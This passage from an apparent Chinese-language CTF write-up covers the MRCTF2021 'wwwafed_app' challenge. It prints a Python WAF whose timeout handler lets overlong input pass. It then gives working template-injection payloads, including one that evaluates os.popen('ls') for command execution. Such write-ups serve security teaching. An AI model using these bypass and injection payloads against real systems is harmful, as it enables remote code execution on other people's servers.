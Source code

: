 ![20210410212208728](https://github.com/Ricky-369369/Rickyweb/blob/main/Nepnep/Probation/img/20210410212208728.png?raw=true)

返回以后查看监听端口, 就可以得到 flag

![20210410212256633](https://github.com/Ricky-369369/Rickyweb/blob/main/Nepnep/Probation/img/20210410212256633.png?raw=true)

## [MRCTF2021] wwwafed_app

登进去给了 waf 源码

```python
import re, sys
import timeout_decorator

@timeout_decorator.timeout(5)
def waf(url):
	# only xxx.yy-yy.zzz.mrctf.fun allow
	pat = r'^(([0-9a-z]|-)+|[0-9a-z]\.)+(mrctf\.fun)$'
	if re.match(pat,url) is None: 
		print("BLOCK",end='\n') # 拦截
	else: 
		print("PASS",end='\n') # 不拦截

if __name__ == '__main__':
    while True:
        url = input('[+]url > ')
        try:
            waf(url)
        except:
            print("PASS",end='\n')
```

使用 re.match() 匹配字符串过长会超时

因为开了 timeout 修饰器, `re.match()` 匹配速度过慢会导致 try 执行失效进而直接执行 excpet, 输入

```
node.mrctf.funaaaaaaaaaaaaaaaaa{{7*7}}
```

发现可以解析模板, 考察的是SSTI

```
node.mrctf.funaaaaaaaaaaaaaaaaa{{().__class__.__bases__[0].__subclasses__()}}
```

感觉没过滤, 想尝试直接打, 会发现 python 输入会自动把 单引号 加上转义字符, 例如

```python
node.mrctf.funaaaaaaaaaaaaaaaaa{{lipsum.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
# 转换后
node.mrctf.funaaaaaaaaaaaaaaaaa{{lipsum.__globals__[\'__builtins__\'][\'eval\'](\'__import__("os").popen("ls").read()\')}}
```
